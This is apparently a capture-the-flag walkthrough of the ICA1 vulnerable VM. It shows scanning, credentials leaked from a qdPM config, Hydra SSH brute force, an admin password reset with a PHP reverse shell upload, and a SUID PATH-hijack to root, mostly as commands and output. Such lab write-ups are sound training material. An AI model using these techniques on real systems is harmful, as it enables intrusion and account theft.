This is a vulnerable virtual machine from a platform called Vulnhub. You can download it. https://www.vulnhub.com/timeline/

https://tryhackme.com/room/ica1





Resonances

Find the IP address:

sudo arp-scan --localnet   or sudo netdiscover



**Nmap:**

nmap -Pn -p- -sC -sV -vvv &lt; Target IP &gt;





The port scan shows that the **SSH, HTTP, and MySQL** services are running. SSH is a fairly new version (current version: **9.4**). We will analyze the web application later.

For now, let's begin by manually enumerating the MySQL service.

nmap -sV -p 3306 --script=mysql-\* &lt; Target IP &gt;



The service enumeration revealed valuable information. However, the real question was whether those users could log in with an **empty password**. To test this, I attempted to log in using:

`mysql -h <ip> -u <user>`

Unfortunately, the login attempts were unsuccessful.

Since nothing particularly stood out as a useful lead from the MySQL service, I decided to move on and examine the **web application running on port 80**.



qdPM v9.2

I ran **Gobuster** against the base URL using a popular wordlist to discover hidden directories and files.

gobuster dir --url [http://&lt; Target IP &gt;](http://10.0.2.6) -w /usr/share/dirb/wordlists/common.txt

I spent some time going through the discovered directories looking for potential leads. Eventually, I found the `/core/config` directory, which contained **MySQL database credentials**. These credentials provided the **initial foothold** on the target system.









all:  
  doctrine:  
    class: sfDoctrineDatabase  
    param:  
      dsn: 'mysql:dbname=qdpm;host=localhost'  
      profiler: false  
      username: qdpmadmin  
      password: "&lt;?php echo urlencode('UcVQCMQk2STVeS6J') ; ?&gt;"   
      attributes:  
        quote_identifier: true

Also, I did subdirectory enumeration, and I found a config file

gobuster dir --url [http://&lt; Target IP &gt;/core](http://10.0.2.6/core) -w /usr/share/dirb/wordlists/common.txt



# Initial Foothold

I discovered two possible exploitation paths by leveraging my access to the **MySQL database**:

1.  **SSH credentials** stored in the `staff` database
    
2.  Resetting the password for the **qdPM admin account**, creating a new admin user, and then using the built-in functionality of the **qdPM web application** to obtain a reverse shell as the `www-data` service account
    

## First Way: SSH Credentials

To begin investigating the first path, I connected to the MySQL database using the discovered credentials:

mysql -h &lt;Target IP&gt; -u qdpmadmin -p



if you get above error try --> mysql -h &lt; Target IP &gt; -u qdpmadmin -p --skip-ssl



show databases;



use staff;

select \* from login

select \* from user;



MySQL \[staff\]> select \* from login  
    -> ;  
+------+---------+--------------------------+  
| id | user_id | password |  
+------+---------+--------------------------+  
| 1 | 2 | c3VSSkFkR3dMcDhkeTNyRg== |  
| 2 | 4 | N1p3VjRxdGc0MmNtVVhHWA== |  
| 3 | 1 | WDdNUWtQM1cyOWZld0hkQw== |  
| 4 | 3 | REpjZVZ5OThXMjhZN3dMZw== |  
| 5 | 5 | Y3FObkJXQ0J5UzJEdUpTeQ== |  
+------+---------+--------------------------+  
5 rows in set (0.003 sec)

MySQL \[staff\]> select \* from user;  
+------+---------------+--------+---------------------------+  
| id | department_id | name | role |  
+------+---------------+--------+---------------------------+  
| 1 | 1 | Smith | Cyber Security Specialist |  
| 2 | 2 | Lucas | Computer Engineer |  
| 3 | 1 | Travis | Intelligence Specialist |  
| 4 | 1 | Dexter | Cyber Security Analyst |  
| 5 | 2 | Meyer | Genetic Engineer |  
+------+---------------+--------+---------------------------+

Before continuing, check out all databases and tables.



In the screenshot above, I identified a database containing **SSH usernames and Base64-encoded passwords**. I copied the usernames and passwords into separate files so they could be used for password cracking with **Hydra**.

nano users.txt



nano credentials





Using **CyberChef**, I was able to decode the hashes. It was fairly easy to determine that the passwords were **Base64-encoded** based on their format



To speed up the process, I wrote a small loop to decode all of them and output the results to a file.

`for i in $(cat credentials); do echo $i > $i.txt; base64 -d $i.txt >> pass.txt; echo >> pass.txt; rm $i.txt; done`



From here, I was able to use both the users and password lists to start running a dictionary attack on the running SSH service.



In this case, I could not find any valid passwords, so I added the usernames in lowercase.

hydra -L users.txt -P pass.txt ssh://&lt; Target IP &gt;



\[22\]\[ssh\] host: &lt; Target IP &gt; login: travis password: DJceVy98W28Y7wLg  
\[22\]\[ssh\] host: &lt; Target IP &gt; login: dexter password: 7ZwV4qtg42cmUXGX

As shown in the screenshot above, I was able to compromise two different user accounts. I logged into both accounts to inspect their home directories. In **Dexter’s** directory, I found a note referencing another potential vulnerability.

In **Travis’** directory, I located the **user flag**, which is commonly used in simulated environments as proof of low-level access.

ssh dexter@&lt; Target IP &gt;





Let's log in with **Travis**.

ssh travis@&lt; Target IP &gt;



ICA{Secret_Project}

## Second Way: Reverse Shell

I found the following values in the `qdPM` database within the `configuration` table:







The screenshot above shows the **qdPM admin email and password** used to log in to the web application. There was originally a different password stored in the database, but I changed it because I was unable to crack it using any of the wordlists I had.

This can be done by running the following SQL command:

update configuration set value='&lt;New WP-PHP hash&gt;' where id=2;

I generated the new **WP-PHP hash** using an online hash generator.

After updating the admin password, I logged in to the **qdPM web application** with the new credentials and created a new administrator account.



Using the new admin account `pwned`, I created a new project and uploaded a **PHP reverse shell** in the `attachments` section.




With the reverse shell uploaded, navigating to `/uploads/attachments` displays the uploaded file. From there, the reverse shell can be executed by clicking on the attachment.







We can stop this attack route here. Although it is possible to escalate privileges from the `www-data` account to another user, we will continue the privilege escalation section using the user accounts we already have access to.

# Privilege Escalation → PATH Hijacking

Using **Dexter’s SSH credentials**, we find a note he left in `note.txt` that states:



I searched for **SUID binaries** using the command `find / -perm -u+s 2>/dev/null`. This command looks for executables that can be run with **root privileges by a non-root user**.



The first binary in the list appeared to be promising. However, when I attempted to run it, it returned an error.



Running `strings` on the binary revealed that it calls the `cat` command to display the contents of `system.info`.

To exploit this, I created a malicious `cat` binary in the `/tmp` directory that simply executed `/bin/bash`. I then added `/tmp` to the beginning of the `$PATH` environment variable. When I re-executed the SUID binary, it used my malicious `cat` instead of the system binary, resulting in a **root shell**.

### Creating a Fake `cat`

echo '/bin/bash' > /tmp/cat  
chmod +x /tmp/cat

Now `/tmp/cat` is a script that simply runs:

## Hijacking PATH

export PATH=/tmp:\$PATH --> I changed PATH:

Now PATH looks like: --> /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

So when a program runs `cat`, the system finds:   /tmp/cat





ICA{Next_Generation_Self_Renewable_Genetics}
